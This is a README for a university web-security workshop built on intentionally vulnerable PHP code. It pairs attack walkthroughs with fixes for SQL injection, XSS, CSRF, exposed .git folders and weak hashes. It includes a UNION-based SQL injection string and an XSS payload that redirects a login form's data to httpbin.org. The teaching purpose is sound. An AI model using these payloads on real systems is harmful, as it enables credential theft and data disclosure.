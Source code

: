 > **DISCLAIMER: code in this demonstration are intentionally vulnerable. Do not use this code in your application!**

# Web Application Security Demo
Designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

> Older version of this workshop is available [here](https://github.com/intraworlds/zcu-security-demo)

## Presentation
[Slides](PRESENTATION.pdf)

## Development
### Requirements
- PHP >=7.1
- PHP extensions PDO and pdo_sqlite

### Installation
Clone this repository `git clone https://github.com/intraworlds/workshop-web-security.git` or download [ZIP file](https://github.com/intraworlds/workshop-web-security/archive/master.zip)

### Run
Inside downloaded project run
```bash
php -S 127.0.0.1:8080
```

Then goto http://127.0.0.1:8080/

### Simulate attacks

#### SQL injection
- go to http://127.0.0.1:8080/sql-injection
- search for `' UNION SELECT name,password FROM user --`
- observe disclosed password

##### Defense
Prepare statement
```php
// prepare SQL statement on DB without arguments
$statement = $pdo->prepare($sql);

// send arguments separately (safely)
$statement->execute(['%' . $query . '%']);

// execute as normal
$users = $statement->fetchAll();
```

#### XSS
- goto http://127.0.0.1:8080/xss
- put following comment
```html
❤️<script>
var form = document.querySelector('form');
form.setAttribute('action', 'https://httpbin.org/post');
form.setAttribute('target', '_blank');
</script>
```
- observe that all following backer are sending passwords to malicious server

##### Defense
escape your outputs
```php
echo htmlspecialchars($comment);
```

#### CSRF
- goto http://127.0.0.1:8080/csrf
- login
- open http://127.0.0.1:8080/kittens.php
- go back to http://127.0.0.1:8080/csrf
- observe that new order was created under your login

##### Defense
use `$_POST` for request which modifies data
```php
// verify CSRF token send with form is valid
if ($_SESSION['csrf'] !== $_POST['csrf']) {
    http_response_code(403);
    exit;
}

// generate CSRF token for the next request
$_SESSION['csrf'] = bin2hex(random_bytes(16));
```

#### Directory traversal
- todo http://127.0.0.1:8080/.git/HEAD
- observe that you have complete access to `.git` folder therefore to all files

##### Defense
- build application without `.git`
- separate public content (images, styles, etc.)
- adjust configuration of your web server, eg.
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<Directory "public">
    <FilesMatch "((^$)|(^.+\.(css|map|js)$))">
        Require all granted
    </FilesMatch>
</Directory>
```


#### Weak hash algorithm
- obtain password hashes by SQL injection attack
- crack passwords by arbitrary online cracker (Rainbow table)

## Resources

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)
- Twitter
  - Michal Špaček [@spazef0rze](https://twitter.com/spazef0rze)
  - Vladimír Smitka [@smitka](https://twitter.com/smitka)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
 - [XSS in Avast Desktop AntiVirus](https://medium.com/bugbountywriteup/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968)
